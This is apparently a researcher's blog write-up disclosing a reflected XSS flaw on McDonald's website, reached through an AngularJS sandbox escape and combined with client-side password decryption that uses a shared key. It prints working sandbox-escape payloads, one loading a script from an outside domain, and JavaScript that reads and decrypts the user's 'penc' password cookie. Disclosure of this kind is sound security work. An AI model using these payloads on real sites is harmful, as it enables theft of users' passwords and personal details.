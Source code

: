 ```yaml
---
title: Stealing passwords from McDonald's users
subtitle: Reflected XSS through AngularJS sandbox bypass causes password exposure of McDonald users.
description: By abusing an insecure cryptographic storage vulnerability and a reflected server cross-site-scripting vulnerability it is possible to steal and decrypt the password from a McDonald's user.
keywords: xss, cross-site, scripting, mcdonalds, password, vulnerability, stealing, angularjs
date: 2017-01-06 00:31:42
---
```


By abusing an insecure cryptographic storage vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2007-Insecure_Cryptographic_Storage" %}) and a reflected server cross-site-scripting vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)" %}) it is possible to steal and decrypt the password from a McDonald's user. Besides that, other personal details like the user's name, address & contact details can be stolen too.

### Proof of Concept

#### Reflected XSS through AngularJS sandbox escape
McDonalds.com contains a search page which reflects the value of the search parameter (`q`) in the source of the page. So when we search on for example `***********-test-reflected-test-***********`, the response will look like this:

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-1" "search-value-test-preview.png" "Text on website" %}{% raw %}
		{% endraw %}{% customlightbox "step-1" "search-value-test-reflected.png" "Text in HTML" %}{% raw %}
	</div>
</div>
{% endraw %}

McDonald's uses AngularJS so we can try to print the unique scope ID using the search value. We can do this by changing the `q` parameter value to `{% raw %}{{$id}}{% endraw %}`. As we can see `{% raw %}{{$id}}{% endraw %}` gets converted to `9` the unique ID (monotonically increasing) of the AngularJS scope.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-2" "search-value-angular-id-preview.png" "Unique ID on website" %}{% raw %}
		{% endraw %}{% customlightbox "step-2" "search-value-angular-id-reflected.png" "Unique ID in HTML" %}{% raw %}
	</div>
</div>
{% endraw %}

Using `{% raw %}{{alert(1)}}{% endraw %}` as value wouldn't work because all AngularJS code is executed in a sandbox. However, the AngularJS sandbox isn't really safe. In fact, it shouldn't be trusted at all. It even got removed in version 1.6 ({% customlink "https://docs.angularjs.org/guide/security#sandbox-removal" %}) because it gave a false sense of security. PortSwigger created a nice blog post about escaping the AngularJS sandbox ({% customlink "http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html" %}).

We first need to find the AngularJS version of McDonalds.com. We can do this by executing `angular.version` in the console.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-3" "angular-version.png" "Angular version" %}{% raw %}
	</div>
</div>
{% endraw %}

The version is 1.5.3, so the sandbox escape we need is `{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}{% endraw %}`. We can use this sandbox escape as search value, which results in an alert.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-4" "alert-1-in-chrome.png" "Alert using AngularJS sandbox escape" %}{% raw %}
	</div>
</div>
{% endraw %}

We can even load external JavaScript files using the following sandbox escape, which results in the alert below.

`{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/external-alert.js`)');}}{% endraw %}`

The JavaScript can be loaded from another domain since McDonald's doesn't exclude it using the `Content-Security-Policy` header.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-5" "alert-external-in-chrome.png" "External domain alert using AngularJS sandbox escape" %}{% raw %}
	</div>
</div>
{% endraw %}

### Proof of Concept

#### Stealing the user's password
Another thing I noticed on McDonalds.com was their sign in page which contained a very special checkbox. Normally you can check "Remember me" when signing in, but the McDonald's sign in page gives us the option to remember the password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-6" "mcdonalds-login-form.png" "Remember my password checkbox" %}{% raw %}
	</div>
</div>
{% endraw %}

I searched through all the JavaScript for the keyword `password` and I found some interesting code that decrypts the password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-7" "source-search-password.png" "Source code search for `password`" %}{% raw %}
		{% endraw %}{% customlightbox "step-7" "cookie-pass-decrypt-source.png" "Source for decrypting the user's password" %}{% raw %}
	</div>
</div>
{% endraw %}

If there's one thing you shouldn't do, it's decrypting passwords client side (or even storing passwords using two-way encryption). I tried to run the code myself, and it worked!

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-8" "decrypt-get-cookie-penc.png" "Decrypting my password using the console" %}{% raw %}
	</div>
</div>
{% endraw %}

The `penc` value is a cookie that is stored for a year. LOL!

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-9" "penc-cookie.png" "The `penc` cookie that is stored for a year" %}{% raw %}
	</div>
</div>
{% endraw %}

McDonald's uses CryptoJS to encrypt and decrypt sensitive data. They use the same `key` and `iv` for every user, which means I only have to steal the `penc` cookie to decrypt someone's password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-10" "encrypt-decrypt-source.png" "Encrypting and decrypting sensitive data using CryptoJS" %}{% raw %}
	</div>
</div>
{% endraw %}

I tried decrypting my password on the search page using a malicious search payload, but it didn't work. Since the AngularJS sandbox escape payload replaces the `charAt` method with the `join` method, the `getCookie` method failed. The `getCookie` method tries to trim whitespaces from cookie values by checking if `charAt(0)` is a whitespace. In the images below you can see `.charAt(0)` returns a string joined by `0` if executed on the search page.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-11" "char-at-fail.png" "The `charAt` method on the search page (fails)" %}{% raw %}
		{% endraw %}{% customlightbox "step-11" "char-at-success.png" "The `charAt` method on the homepage (success)`" %}{% raw %}
	</div>
</div>
{% endraw %}

I wrote some JavaScript that loads the homepage in an iframe and steals the cookie using that iframe. Since the payload is executed multiple times because of the sandbox escape, I keep track of the variable `xssIsExecuted`, so that the payload is only executed once.

{% highlightcode javascript %}
	if (!window.xssIsExecuted) {
	    window.xssIsExecuted = true;

	    var iframe = $('<iframe src="https://www.mcdonalds.com/us/en-us.html"></iframe>');
	    $('body').append(iframe);

	    iframe.on('load', function() {
	        var penc = iframe[0].contentWindow.getCookie('penc');
	        alert(iframe[0].contentWindow.decrypt(penc));
	    });
	}
{% endhighlightcode %}

We can now use the following sandbox escape, which results in my password in an alert box!

`{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/mcdonalds-password-stealer.js`)');}}{% endraw %}`

{% raw %}
<p></p>
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-12" "alert-my-password.png" "My password!" %}{% raw %}
	</div>
</div>
{% endraw %}

That was all pretty easy. I tried to contact McDonald's multiple times to report the issue, but unfortunately they didn't respond, which is why I decided to disclose the vulnerability.
